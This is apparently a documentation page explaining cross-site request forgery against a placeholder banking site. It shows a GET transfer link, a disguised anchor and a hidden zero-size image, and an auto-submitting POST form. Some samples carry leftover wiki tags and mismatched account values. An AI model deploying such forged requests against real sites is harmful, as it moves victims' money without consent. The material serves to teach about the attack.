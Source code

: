 



# Exploitation samples
**XSRF** Attacks can be launched by placing the malicious code/URL, automatic-action HTML image elements **on forums and email spam**, so that browsers visiting these pages would open them automatically, without much user action.
## GET scenario
In this part, we will give a technical description of the figure used in the [Components](#components) section. 
In addition to this, the **parameters of malicious link** are all transmitted via an **HTTP GET** method.

```http
GET http://bank.com/transfer.do?acct=PERPRETOR&amount=100 HTTP/1.1
```
But as mentioned above, the malicious link is **embedded** in something that seems lawful.
The exploit URL can be disguised as an ordinary link, encouraging the victim to click it: 
```html
<a href="http://bank.com/transfer.do?acct=WEBVISITOR&amount=100000">View my Pictures!</a>
```
Or as a **0x0** fake image: 
```html
<img src="http://bank.com/transfer.do?acct=WEBVISITOR&amount=100000" width="0" height="0" border="0">
```
If this image tag were included in the email, the **Website visitor** wouldn't see anything. However, the browser will still submit the request to **bank.com** (the server component) **without any visual indication** that the transfer has taken place. 


## POST scenario
The only difference between **GET** and **POST** attacks is how the attack is being executed by the victim. Let's assume the bank now uses **POST** and the vulnerable request looks like this: 

```http
POST http://bank.com/transfer.do HTTP/1.1

acct=PERPRETOR&amount=100
```
Such a request cannot be delivered using standard **A** or **IMG** tags, but can be delivered using a **FORM** tag: 
```html
<form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">
  <input type="hidden" name="acct" value="WEBVISITOR"/>
  <input type="hidden" name="amount" value="100000"/>
  <input type="submit" value="View my pictures"/>
</form>
```
This form will require the user to click on the submit button, but this can be also executed automatically using **JavaScript**: 
```html
<body onload="document.forms[0].submit()">
/*Here is the prior malicious code*/
<form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">
  <input type="hidden" name="acct" value="WEBVISITOR"/>
  <input type="hidden" name="amount" value="100000"/>
  <input type="submit" value="View my pictures"/>
</form>
```
